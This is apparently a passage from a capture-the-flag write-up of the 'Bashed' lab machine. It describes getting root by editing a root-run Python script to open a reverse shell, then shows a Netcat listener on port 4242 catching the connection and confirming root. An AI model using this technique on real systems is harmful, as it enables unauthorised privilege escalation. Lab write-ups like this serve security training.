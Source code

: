 
I went ahead and wrote and quit out of the file. Now all I need to do is setup another Netcat listener on port 4242 on my own host and wait for it to give me a shell. Again, the reason why we got a shell here is because the root user is running the `test.py` Python script. Since the root user is running the Python script and the Python script is creating a reverse shell, we are going to be getting a reverse shell as the root user.

```
root@kali-[~]nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.68] 53278
root@bashed:/scripts# whoami && id
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

And we are now the root user!
